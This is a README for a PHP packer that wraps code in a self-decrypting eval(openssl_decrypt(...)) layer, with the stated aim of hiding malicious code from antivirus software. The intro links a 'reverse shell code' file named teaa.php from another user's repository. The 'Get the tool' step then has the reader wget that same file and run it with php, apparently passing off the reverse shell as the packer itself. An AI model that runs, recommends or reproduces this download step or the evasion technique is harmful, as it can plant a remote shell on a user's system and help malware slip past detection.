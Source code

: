 # PHP-Split&Encrypt
Packs PHP code to avoid "falsely" detecting it as a malware.
Like for example a nice [reverse shell code](https://raw.githubusercontent.com/wawan507821/mrw4w4n.github.io/main/teaa.php).

## About
This code splits the given PHP code on the SPLIT&ENCRYPTme flag and 
packs the rest of the file into an self decrypted AES encryption using
openssl_encrypt. The aim of the code is to hide a malicious code from
anti-virus softwares.

This tool may be used for legal purposes only.  Users take full responsibility
for any actions performed using this tool.  The author accepts no liability
for damage caused by this tool.  If these terms are not acceptable to you, then
do not use this tool.

## Execution
Get the tool:
```shell
wget -O teaa.php https://raw.githubusercontent.com/wawan507821/mrw4w4n.github.io/main/teaa.php
```
Then pack the code in `input.php` and export it to `output.php`:
```shell
php teaa.php input.php output.php
```

## Example usage
Pack the whole code:
```shell
gramthanos:~$ echo '<?php echo("Hello world!\n");' > input.php
gramthanos:~$ php teaa.php input.php output.php
Insert password [banana]:
No SPLIT&ENCRYPTme flag found. Packing the whole code...
Saved as output.php
gramthanos:~$ cat output.php
<?php
// SPLIT&ENCRYPTed
eval(openssl_decrypt(
    base64_decode('+jl76F7KLZNowsnWCubzjeQcatkR8EVAOwaZ2K7pc7c5y4rVZeX3SpJt4mqJdKJv'),
    'AES-256-CBC',
    base64_decode('tJPUg2Sv5E0RwBZc9HCkFk0eJgmRHvmYvoaNRq3j3k4='),
    OPENSSL_RAW_DATA,
    base64_decode('2plZelDpjPI6ZuNlqUdlTg==')
));
gramthanos:~$ php output.php
Hello world!
```

Pack second half of a code:

```shell
gramthanos:~$ echo '<?php echo("Hello ");
> // SPLIT&ENCRYPTme
> echo("world!\n");' > input.php
gramthanos:~$ php teaa.php input.php output.php
Insert password [banana]:
Saved as output.php
gramthanos:~$ cat output.php
<?php echo("Hello ");
// SPLIT&ENCRYPTed
eval(openssl_decrypt(
    base64_decode('25yVIdJRfs4wz2cEEVAWpEAfB8onqDE6ofp2D5d1Gbc='),
    'AES-256-CBC',
    base64_decode('tJPUg2Sv5E0RwBZc9HCkFk0eJgmRHvmYvoaNRq3j3k4='),
    OPENSSL_RAW_DATA,
    base64_decode('19upBbxqpyFzTgMUfOmgMg==')
));
gramthanos:~$ php output.php
Hello world!
```

## Copyright & Licence

Copyright (C) 2020 GramThanos

GNU GENERAL PUBLIC LICENSE Version 3
